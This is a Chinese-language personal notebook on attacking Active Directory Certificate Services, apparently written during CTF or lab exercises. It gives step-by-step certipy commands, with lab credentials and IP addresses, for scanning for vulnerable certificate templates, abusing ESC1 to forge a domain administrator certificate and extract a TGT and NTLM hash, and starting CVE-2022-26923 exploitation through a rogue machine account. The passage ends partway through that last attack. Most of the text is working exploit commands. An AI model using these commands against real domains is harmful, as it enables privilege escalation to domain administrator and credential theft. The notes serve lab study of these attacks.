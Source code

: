 ### ADCS证书服务攻击

**文章** [ADCS攻击笔记 - 先知社区](F:\LocalCTF\ADCS攻击笔记 - 先知社区.html)

[CVE-2022-26923域提权漏洞复现 _ Mari0er's Blog](F:\LocalCTF\CVE-2022-26923域提权漏洞复现 _ Mari0er's Blog.html)

查看ADCS信息

```bash
certutil
```

![image-20231012210006494](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012210006494.png)

扫证书漏洞

```bash
certipy find -u 'zhangxia@xiaorang.lab'  -password 'MyPass2@@6' -dc-ip 172.22.9.7 -vulnerable -stdout
```

#### ESC1利用过程

申请 `XR Manager` 证书模版并伪造域管理员（证书模板为扫出的漏洞模板）

```bash
certipy req -u 'zhangxia@xiaorang.lab' -p 'MyPass2@@6' -target 172.22.9.7 -dc-ip 172.22.9.7 -ca 'xiaorang-XIAORANG-DC-CA' -template 'XR Manager' -upn 'administrator@xiaorang.lab'
```

![image-20231012210603734](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012210603734.png)

利用证书获取 TGT 和 NTLM Hash

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.22.9.7
```

![image-20231012210658114](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012210658114.png)

#### CVE-2022–26923

该漏洞允许低权限用户在安装了 Active Directory 证书服务 (AD CS) 服务器角色的默认 Active Directory 环境中将权限提升到域管理员。在默认安装的ADCS里就启用了`Machine`模板。相当于伪造域控机器用户的证书。

添加机器账户，并将该机器账户dnsHostName指向DC[MAQ默认为10]:

```bash
certipy account create -u zhangsan@red.lab -p zs@123456 -dc-ip 192.168.149.133 -user win -pass win@123456 -dns 'DC2012.red.lab'
```

![img](file:///F:/LocalCTF/ADCS%E6%94%BB%E5%87%BB%E7%AC%94%E8%AE%B0%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20220814190426-dc4de08e-1bc0-1.png)

用该机器账户向ADCS请求证书：

```bash
certipy req -u 'win$'@red.lab -p win@123456 -target 192.168.149.135 -ca red-ADCS-CA -template Machine
```
